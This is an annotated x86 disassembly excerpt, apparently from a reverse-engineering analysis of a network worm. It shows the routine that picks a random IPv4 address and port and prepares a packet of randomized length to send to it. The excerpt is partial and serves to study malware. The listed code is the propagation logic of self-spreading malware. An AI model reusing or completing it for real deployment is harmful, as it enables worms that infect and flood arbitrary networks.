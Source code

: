 <span style="color:maroon">seg000:000001B1 </span>89 C5                             <span style="color:navy">mov     ebp</span><span style="color:navy">, eax</span>
<span style="color:maroon">seg000:000001B3 </span>31 D2                             <span style="color:navy">xor     edx</span><span style="color:navy">, edx</span>
<span style="color:maroon">seg000:000001B5 </span>52                                <span style="color:navy">push    edx</span>
<span style="color:maroon">seg000:000001B6 </span>52                                <span style="color:navy">push    edx</span>
<span style="color:maroon">seg000:000001B7 </span>C1 E9 10                          <span style="color:navy">shr     ecx</span><span style="color:navy">, </span><span style="color:green">10h</span>
<span style="color:maroon">seg000:000001BA </span>66 89 C8                          <span style="color:navy">mov     ax</span><span style="color:navy">, cx</span>
<span style="color:maroon">seg000:000001BD </span>50                                <span style="color:navy">push    eax</span>             ; to.sin_addr.s_addr = (rand() &lt;&lt; 16) | rand()
<span style="color:maroon">seg000:000001BE </span>31 C0                             <span style="color:navy">xor     eax</span><span style="color:navy">, eax</span>
<span style="color:maroon">seg000:000001C0 </span>2D 03 BC FC FF                    <span style="color:navy">sub     eax</span><span style="color:navy">, </span><span style="color:green">0FFFCBC03h</span>
<span style="color:maroon">seg000:000001C5 </span>F7 E5                             <span style="color:navy">mul     ebp</span>
<span style="color:maroon">seg000:000001C7 </span>2D 3D 61 D9 FF                    <span style="color:navy">sub     eax</span><span style="color:navy">, </span><span style="color:green">0FFD9613Dh</span>
<span style="color:maroon">seg000:000001CC </span>89 C5                             <span style="color:navy">mov     ebp</span><span style="color:navy">, eax</span>
<span style="color:maroon">seg000:000001CE </span>30 E4                             <span style="color:navy">xor     ah</span><span style="color:navy">, ah</span>
<span style="color:maroon">seg000:000001D0 </span>B0 02                             <span style="color:navy">mov     al</span><span style="color:navy">, </span><span style="color:green">2</span>
<span style="color:maroon">seg000:000001D2 </span>50                                <span style="color:navy">push    eax</span>             ; to.sin_family = AF_INET
<span style="color:maroon">seg000:000001D2                                                           </span>; to.sin_port = rand()
<span style="color:maroon">seg000:000001D3 </span>89 E0                             <span style="color:navy">mov     eax</span><span style="color:navy">, esp</span>
<span style="color:maroon">seg000:000001D5 </span>6A 10                             <span style="color:navy">push    </span><span style="color:green">10h</span>             ; sizeof(struct sockaddr)
<span style="color:maroon">seg000:000001D7 </span>50                                <span style="color:navy">push    eax</span>             ; &amp;to
<span style="color:maroon">seg000:000001D8 </span>31 C0                             <span style="color:navy">xor     eax</span><span style="color:navy">, eax</span>
<span style="color:maroon">seg000:000001DA </span>50                                <span style="color:navy">push    eax</span>             ; flags
<span style="color:maroon">seg000:000001DB </span>2D 03 BC FC FF                    <span style="color:navy">sub     eax</span><span style="color:navy">, </span><span style="color:green">0FFFCBC03h</span>
<span style="color:maroon">seg000:000001E0 </span>F7 E5                             <span style="color:navy">mul     ebp</span>
<span style="color:maroon">seg000:000001E2 </span>2D 3D 61 D9 FF                    <span style="color:navy">sub     eax</span><span style="color:navy">, </span><span style="color:green">0FFD9613Dh</span>
<span style="color:maroon">seg000:000001E7 </span>89 C5                             <span style="color:navy">mov     ebp</span><span style="color:navy">, eax</span>
<span style="color:maroon">seg000:000001E9 </span>C1 E8 17                          <span style="color:navy">shr     eax</span><span style="color:navy">, </span><span style="color:green">17h</span>
<span style="color:maroon">seg000:000001EC </span>80 C4 03                          <span style="color:navy">add     ah</span><span style="color:navy">, </span><span style="color:green">3</span>
<span style="color:maroon">seg000:000001EF </span>50                                <span style="color:navy">push    eax</span>             ; len = 0x300 + (rand() &gt;&gt; 7)
<span style="color:maroon">seg000:000001F0 </span>57                                <span style="color:navy">push    edi</span>             ; buf
<span style="color:maroon">seg000:000001F1 </span>56                                <span style="color:navy">push    esi</span>             ; s